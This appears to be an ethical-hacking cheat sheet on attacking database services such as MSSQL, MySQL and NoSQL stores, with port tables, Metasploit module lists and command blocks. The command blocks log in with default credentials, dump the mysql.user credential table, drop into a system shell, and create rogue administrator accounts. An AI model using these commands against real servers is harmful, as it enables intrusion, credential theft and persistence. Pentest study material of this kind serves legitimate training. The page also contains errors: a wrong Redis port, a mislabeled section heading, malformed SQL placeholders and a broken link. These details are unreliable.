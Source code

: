 ```yaml
---
title: Database Stores
categories: [Ethical Hacking, Common Ports and Services]
tags: [sql, mysql, nosql, mariadb, port:1433, port:3306, nmap, metasploit, hydra, sqlmap]
comments: true
---
```


# Overview

Relational and Non-Relational databases are a valuable target for attackers, with sensitive information often stored within the database tables such as Personally Identifiable Information (PII) and credentials. There are also several vulnerabilities and misconfigurations that can be exploited by an attacker to gain remote shell access to the host running the platform, privilege escalation and malicious program execution.

## Relational Databases

Structured Query Language (SQL) is a language specifically designed for managing structured data within relational database systems and is commonly used as backend storage for many software and web applications. See the post [SQL Overview](https://darkcybe.github.io/posts/SQL_Overview/) for more background information.

There are multiple relational database management systems (RDBMS), some of the most commonly encountered, their default ports and tool applicability are listed in the below table:

| Service       | Port  	 | Nmap   | MSF   | Hydra   | SQLmap | Other        |
| ------------- | :--------: | :----: | :---: | :-----: | :----: | ------------ |
| MSSQL         | 1433-1434  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | <i class='fa fa-check-circle'></i>  | Crackmapexec <br> Impacket |
| MySQL/MariaDB | 3306  	 | <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | <i class='fa fa-check-circle'></i>  |			    |
| PostgreSQL    | 5432  	 | <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | <i class='fa fa-check-circle'></i>  |			    |
| Oracle        | 1521  	 | <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | <i class='fa fa-check-circle'></i>  | Oscanner <br> ODAT |

### SQL Injection

See [CAPEC 66 - SQL Injection](https://darkcybe.github.io/posts/../../../../CAPEC/2022-10-02-66-SQL_Injection.md-Overflow_Buffers/) for verbose information and steps involved in conducting a SQL Injection attack.

## Non-Relational Databases

Non-Relational databases store data in a different format than Relational databases that rely on SQL. Non-Relational databases are often categorized as Not Only SQL (NoSQL) and are generally defined as a database that does not use tables, fields, and columns that structured data required. There are a few different catagories of Non-Relational databases such as; Document, Key-Value, Graph, File Systems, etc.

As with the various RDBMS solutions, there are a number of Non-Relational systems, some of the most commonly encountered, their default ports and tool applicability are listed in the below table. Other solutions which aren't typically listed as NoSQL databases are added here also, such as Redis and Memcached which are memory storage solutions and Hadoop, NFS, AFP, and iSCSI which are file systems.

| Service          | Port  	    | Nmap | MSF | Hydra | Other | 
| ---------------- | :--------: | :--: | :-: | :---: | ----- |
| MongoDB          | 27017 	 	| <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | |
| Cassandra        | 9042      	| <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | | |
| Redis			   | 6579	 	| <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | |
| Memcached		   | 11211	 	| <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>    | |
| Hadoop Mapreduce | 50030 <br> 50060  | <i class='fa fa-check-circle'></i> | | | |
| Hadoop HDFS	   | 50070 <br> 50075 <br> 50090 | <i class='fa fa-check-circle'></i> | | | |
| NFS			   | 2049    	| <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | | NFSshell |
| AFP			   | 548     	| <i class='fa fa-check-circle'></i>  | <i class='fa fa-check-circle'></i> | <i class='fa fa-check-circle'></i>   | |
| iSCSI			   | 3260    	| <i class='fa fa-check-circle'></i>  | | | Open-iSCSI <br> iSCSIadm |

# MSSQL

Microsoft SQL Server (MSSQL) often exposes two ports:
1.	1433 - Used by clients to interact with the database
2.	1434 - Used to list available instances (a Server can run multiple instances on high ports)

Default credentials are often set to `sa:sa`, which sa equivalent to Sysadmin.

## MSSQL Scanning and Enumeration

| Tool | Script/Module | Auth | MITRE ATT&CK Tactic             | Command                                    |
| ---- | ------------- | :--: | ------------------------------- | ------------------------------------------ |
| Nmap | ms-sql-info   | N    | Reconnaissance        		    | `sudo nmap -A -p 1433,1434 -n 10.10.10.10` |
| MSF  | mssql_ping    | ?    | Reconnaissance                  | |           
| MSF  | mssql_enum    | ?    | Reconnaissance                  | |

## MSSQL Exploitation

| Tool | Script/Module           | Auth | MITRE ATT&CK Tactic             | Command                                    |
| ---- | ----------------------- | :--: | ------------------------------- | ------------------------------------------ |
| MSF  | mssql_escalate_dbowner <br> mssql_escalate_escalate_as | Y | Privilege Escalation | |
| MSF  | mssql_hashdump			 | Y    | Credential Access	     		  | |
| MSF  | mssql_local_auth_bypass | Y    | Persistence <br> Privilege Escalation  | |
| MSF  | mssql_ntlm_stealer      | Y    | Credential Access      		  | |
| MSF  | mssql_idf               | Y    | Discovery                       | |
| MSF  | mssql_payload           | Y    | Execution                       | |
| MSF  | mssql_sql_file          | Y    | Execution                       | |

## MSSQL Database Interaction

the `mssqlclient.py` python tool that comes pre-installed on Kali Linux as part of the Impacket suite, can be used to interact with a remote MSSQL server.

```bash
# Connecting to a Remote MSSQL Server (Requires Database selection, Domain, Username, Password, and IP address entry.)
mssqlclient.py -db %DATABASE% -windows-auth %DOMAIN%/%USERNAME%:%PASSWORD%@%IP%

# Database Enumeration
SELECT * from %TABLE% # Show all stored data under a select table
SELECT * FROM %DATABASE%.INFORMATION_SCHEMA.TABLES; # Show tables under a select database

# Exploitation
CREATE LOGIN &USERNAME% WITH PASSWORD = '&PASSWORD%' # Create a new user and assign sysadmin privileges
sp_addsrvrolemember '%USERNAME%', 'sysadmin'
```

# MySQL/MariaDB

MySQL is commonly found running on either windows or linux servers. The original MySQL solution was bought by Oracle, the previous open-source variant was forked and is referred to as MariaDB.

Default credentials are often set to `root:`, within some instances as per the example not requiring a password.

## MySQL/MariaDB Scanning and Enumeration

| Tool | Script/Module | Auth | MITRE ATT&CK Tactic             | Command                                    |
| ---- | ------------- | :--: | ------------------------------- | ------------------------------------------ |
| Nmap | mysql-info    | N    | Reconnaissance                  | `sudo nmap -A -p 3306 -n 10.10.10.10`
| MSF  | mysql_enum    | Y    | Reconnaissance                  | |

## MySQL/MariaDB Exploitation

## MSSQL Database Interaction

The MySQL command line tool can be used to interface with a remote MySQL/MariaDB instance.
	
```bash
# Accessing a Remote Server
mysql -h 10.10.10.10 -u root
mysql -h 10.10.10.10 -u root -e 'show databases;'
	
# Database Interaction
show databases; # Shows all available databases
use %DATABASE%; # Enter a select database
show tables; # Show tables under a select database
describe %TABLE%; # Show details of a select table
select * from %TABLE% # Show all stored data under a select table

# Exploitation
\! sh # Drop into a shell
mysql -h 10.10.10.10 -u root --password=%PASSWORD% -e "SELECT * FROM mysql.user;" # Credential Dumping
create user test identified by 'test'; # Create a new user and assign admin privileges
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```
